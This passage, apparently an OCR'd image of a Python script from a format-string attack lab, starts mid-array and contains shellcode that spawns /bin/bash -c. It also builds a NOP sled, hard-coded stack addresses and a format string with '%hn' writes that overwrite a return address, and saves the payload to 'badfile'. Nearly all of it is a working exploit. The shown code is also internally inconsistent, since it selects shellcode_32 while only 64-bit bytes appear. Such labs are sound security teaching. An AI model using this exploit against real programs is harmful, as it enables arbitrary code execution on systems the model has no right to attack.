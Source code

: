 ```python
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = N - len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

############################################################
#
#    Construct the format string here
# 
############################################################

# This line shows how to store a 4-byte integer at offset 0
shellcode_addr = 0xffffd5d4  # 0xffffd080 + start
print(hex(shellcode_addr))
number  = 0xffffcfa8 + 4
number_1 = number + 2 
content[0:4]  =  (number).to_bytes(4,byteorder='little')

content[8:12] = (number_1).to_bytes(4, byteorder='little')
# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x."*62 + "%.54170x"  + "%hn" + "%.10795x" + "%hn"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```
